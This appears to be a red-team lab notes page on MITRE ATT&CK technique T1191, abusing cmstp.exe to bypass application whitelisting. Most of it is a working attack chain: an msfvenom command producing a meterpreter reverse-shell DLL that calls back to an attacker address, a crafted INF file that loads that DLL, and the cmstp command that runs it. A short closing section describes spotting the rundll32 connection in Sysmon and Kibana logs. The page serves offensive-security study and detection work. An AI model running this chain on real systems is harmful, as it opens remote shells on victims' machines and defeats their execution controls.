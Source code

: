 ```yaml
---
description: CMSTP code execution - bypass application whitelisting.
---
```


# T1191: CMSTP

## Execution

Generating the a reverse shell payload as a DLL:

{% tabs %}
{% tab title="evil.dll" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
{% endtab %}
{% endtabs %}

Creating a file that will be loaded by CSMTP.exe binary that will in turn load our evil.dll:

{% tabs %}
{% tab title="f.inf" %}
```csharp
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
{% endtab %}
{% endtabs %}

Invoking the payload:

```csharp
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is spawned which then establishes the connection back to the attacker:

![](../../.gitbook/assets/cmstp-rundll32.png)

A very privitive way of hunting for suspicious instances of rundll32 initiating connections would be skimming through the sysmon logs and looking for network connections being established by rundll32 immediately/soon after it had been spawned by cmstp.

Note how the connection was established one second after the process creation. This behaviour depends on what the payload is supposed to do, but if the payload is a reverse shell, it usually attempts connecting back immediately upon execution, which is exactly our case:

![](../../.gitbook/assets/cmstp-kibana%20%281%29.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1191" %}

{% embed url="https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/" %}



